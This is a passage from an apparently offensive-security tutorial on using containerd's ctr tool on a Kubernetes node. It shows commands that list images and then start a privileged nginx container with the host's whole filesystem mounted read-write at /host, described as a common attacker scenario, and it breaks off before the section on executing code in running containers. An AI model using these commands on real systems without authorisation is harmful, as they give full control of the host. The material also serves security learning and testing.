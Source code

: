 We can see from the above "snipped" message that this gives us a lot more information on the container, including some labels that allow us to identify associated Kubernetes parameters. We also get various metadata and environment variables associated with the container (excluded from above output).

# Running our own containers

To run our own containers, we need to know what container image to use. The "correct" container image to use obviously depends on what we want to do with the container, but if we just want to achieve the common attacker scenario of running a privileged container with a host filesystem mount, almost any regular (non cut down) image will do.  If we can find a suitable container image already available locally, this saves us the step of retreiving one, so lets check for a simple `nginx` image in the locally stored list. We can do this via running `image ls` and grepping the output like so:

```
$ sudo ctr --address /var/run/containerd/containerd.sock -n k8s.io image ls | grep nginx
docker.io/library/nginx:1.14.2     application/vnd.docker.distribution.manifest.list.v2+json sha256:f7988fb6c02e0ce69257d9bd9cf37ae20a60f1df7563c3a2a6abe24160306b8d 42.6 MiB  linux/386,linux/amd64,linux/arm/v7,linux/arm64/v8,linux/ppc64le,linux/s390x
```

If we dont find anything suitable for our purposes locally we can always `image pull` something to get what we need, but in this case the image above is fine. 

The command example below shows how we can use this `nginx` image to run a privileged container with the hosts filesystem mounted at `/host`.

```
$ sudo ctr --address /var/run/containerd/containerd.sock -n k8s.io run --privileged --mount 'type=bind,src=/,dst=/host,options=rbind:rw' -d 'docker.io/library/nginx:1.14.2' nginx
```

No output from the command here is generally a good sign, but we can confirm that the container was correctly created by listing containers and grepping for `nginx` (the container id we specified in the above command).

```
$ sudo ctr --address /var/run/containerd/containerd.sock -n k8s.io container ls | grep nginx
3bd8e95274f34f1ecf0b11e19f52127361327742e40ae707ac5613f1365f2e71    docker.io/library/nginx:1.14.2                                          io.containerd.runc.v2
8ebece262e1762688c8f8adf80fe6d017e2043523a0d74f5812530b38524e149    docker.io/library/nginx:1.14.2                                          io.containerd.runc.v2
nginx                                                               docker.io/library/nginx:1.14.2                                          io.containerd.runc.v2
```

Our newly created container can be seen in the output above, standing out because its container ID is not a long hash value.


# Executing code in running containers

Now lets look at how we execute code in running containers. We will do this both in one of the already running containers as well as in our newly created one.
